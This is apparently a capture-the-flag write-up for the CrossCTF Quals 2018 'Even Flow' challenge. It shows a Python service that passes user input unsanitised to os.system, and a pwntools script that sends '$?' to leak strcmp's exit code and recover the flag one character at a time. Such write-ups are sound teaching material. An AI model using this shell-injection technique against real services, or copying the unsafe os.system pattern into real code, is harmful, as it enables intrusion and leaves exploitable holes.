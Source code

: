 # Even Flow - CrossCTF Quals 2018 (pwn)

> Do you like shell command injection?
>
> nc ctf.pwn.sg 1601
>
> Creator - amon (@nn_amon)

## Challenge
We are given a python script that is ran upon connection to the challenge server. Mainly, it reads in 2 strings.

First, a string that is called "flag", and then another string consisting of only 2 bytes called "shell".
```
sys.stdout.write("Flag: ")
sys.stdout.flush()
flag = sys.stdin.readline().strip()

sys.stdout.write("Shell: ")
sys.stdout.flush()
shell = sys.stdin.read(2)
```

The "flag" would be passed as an argument into the `evenflow` binary, while the "shell" is just being passed to `echo`.
```
os.system("./evenflow " + flag + "; echo \"" + shell + "\"");
```

We were also given the source of `evenflow`, which just reads the flag from a file, and performs `strcmp` on the "flag" that we passed in and the actual flag.
```
size_t get_file_size(char * filename) {
    struct stat st;
    stat(filename, &st);
    return st.st_size;
}

int main(int argc, char ** argv) {
    FILE * fd = fopen("flag", "r");
    size_t file_size = get_file_size("flag");
    char * buffer = malloc(file_size);
    fread(buffer, 1, file_size, fd);
    return strcmp(buffer, argv[1]);
}
```

The interesting part of this code is the last line,
```
return strcmp(buffer, argv[1]);
```

According to documentation, `strcmp` will return a number that says how far the first differing character is away from each other.

## Exploit
### $?
In a shell, `$?` contains the return value of the previous command. Since we are allowed to pass a string of 2 bytes to `echo`, we can just send in `$?` for "shell".

So, we can call `echo $?` which will give us the return value of `./evenflow flag`, which will let us know how far away is the first differing character from the actual flag. 

With this information, we can keep "correcting" our flag until we get the actual flag.

### Script
We can write a script to automate this process.
```
from pwn import *

def tryf(flag):
    p = remote('ctf.pwn.sg', 1601)

    p.sendlineafter('Flag: ', flag)
    p.sendlineafter('Shell: ', '$?')

    # returns the return value of evenflow
    return int(p.recvline())

# The Idea:
# Basically, we compare the actual flag to "0",
# Then adjust it based on the output of strcmp (the exit code)
# e.g. to "C", then add a "0" => "C0"
# and repeat till we get "}", the end of the flag

s = "0"
while True:
    i = tryf(s)

    # adjust!
    c = chr(ord('0')+i)
    s = s[:-1] + c

    if s[-1] == '}':
        print(s)
        break

    s+='0'
```